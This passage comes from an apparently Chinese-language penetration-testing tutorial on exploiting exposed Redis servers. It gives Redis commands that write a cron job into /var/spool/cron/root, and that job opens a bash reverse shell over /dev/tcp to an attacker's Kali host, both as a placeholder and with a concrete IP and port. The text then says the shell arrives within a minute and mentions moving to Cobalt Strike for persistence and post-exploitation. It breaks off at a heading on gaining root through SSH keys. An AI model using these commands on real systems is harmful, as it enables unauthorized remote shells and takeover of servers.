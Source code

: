 ```plain
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali的IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali的IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```

[![](assets/1702372985-00eef55c6654ce5902bf5ff4b5dff1f9.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/9.png)

待任务执行后会弹到kali的nc上，过一分钟左右就可以收到shell

[![](assets/1702372985-e0dbab9d1e7c86e29ccb69e52ce7ff7e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/10.png)

再上线到CS做权限维持和后渗透

[![](assets/1702372985-29d9af65096cf1ade1cf242b85c08a07.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/11.png)

### [](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90 "3.利用公私钥认证获得root权限")3.利用公私钥认证获得root权限[](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90)

在以下条件下,可以利用此方法
